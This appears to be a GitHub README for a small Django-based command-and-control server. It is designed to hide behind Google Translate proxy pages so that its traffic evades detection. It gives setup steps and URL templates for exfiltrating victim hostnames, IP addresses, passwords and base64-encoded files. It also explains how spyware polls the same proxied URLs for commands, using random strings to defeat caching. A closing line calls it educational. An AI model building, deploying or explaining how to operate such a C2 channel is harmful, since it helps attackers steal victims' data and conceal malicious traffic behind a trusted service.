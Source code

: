 # EFREI-C2-Example
A simple C2 meant to be used behind Google Translate Webpages as a proxy for data evasion.

## Requirements
- Python 3.x
- Django (https://www.djangoproject.com/download/)

## Setup
- Create an admin user: ``python manage.py createsuperuser --username <username>``
- Log on the admin dashboard at ``127.0.0.1:8000/admin``

## Usage
### Exfiltration
- Data are collected directly from the URL
- simply send data to the base URL: ``https://your-domain.translate.goog/<?f>/><hostname>/<ip>/<data_type>/<?hash_file>/<data>/``
  - ``f`` is a flag value to tell the server you are uploading a file.**(OPTIONAL)**.
  - ``hostname`` is your victim hostname.
  - ``ip`` is your victim ip address.
  - ``data_type`` is the keyword you want to filter data. It can be for example a password type.
  - ``hash_file`` is a flag to know if the exfiltrated data is a file or a string. You must send the hash of the file you want to upload to recreate the file. It allows the admin dashboard to know if it has to decode the received data or not. **(REQUIRED IF YOU ARE USING THE /f/ PATH)**
  - ``data`` is the content you want to exfiltrate. If it's a file, it can be encoded in base64 and decoded automatically on the admin dashboard. If it's a base64 data, you must split it into multiple strings otherwise Google Translate will limit you.
You can expand the size of the data by editing ``collector\models.py`` and edit the ``max_length=<your value>`` for the ``data_content`` field.

### Sending command
- Fetch the following link from your client/spyware: ``https://your-domain.translate.goog/c/<hostname>/<ip>/<random_string>``
  - The random string is used to prevent Google to cache the URL.

# FOR EDUCATIONAL PURPOSE ONLY
